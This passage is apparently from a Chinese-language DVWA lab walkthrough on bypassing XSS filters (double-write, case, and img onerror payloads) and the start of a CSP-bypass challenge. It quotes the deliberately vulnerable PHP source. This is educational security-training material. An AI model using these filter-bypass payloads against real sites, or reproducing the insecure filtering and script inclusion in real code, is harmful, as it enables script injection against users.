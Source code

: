 双写绕过：

```
<scrip<script>t>alert(/xss/)</script>
```

大小写绕过：

```
<Script>alert(/xss/)</script>
```

**3.high**

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

过滤了'script',可以用其他标签绕过

```
<img src="" onerror=alert(1)>
```



### CSP绕过

**1.low**

```php
<?php

$headerCSP = "Content-Security-Policy: script-src 'self' https://pastebin.com hastebin.com example.com code.jquery.com https://ssl.google-analytics.com ;"; // allows js from self, pastebin.com, hastebin.com, jquery and google analytics.

header($headerCSP);

# These might work if you can't create your own for some reason
# https://pastebin.com/raw/R570EE00
# https://hastebin.com/raw/ohulaquzex

?>
<?php
if (isset ($_POST['include'])) {
$page[ 'body' ] .= "
    <script src='" . $_POST['include'] . "'></script>
";
}
$page[ 'body' ] .= '
<form name="csp" method="POST">
    <p>You can include scripts from external sources, examine the Content Security Policy and enter a URL to include here:</p>
    <input size="50" type="text" name="include" value="" id="include" />
    <input type="submit" value="Include" />
</form>
```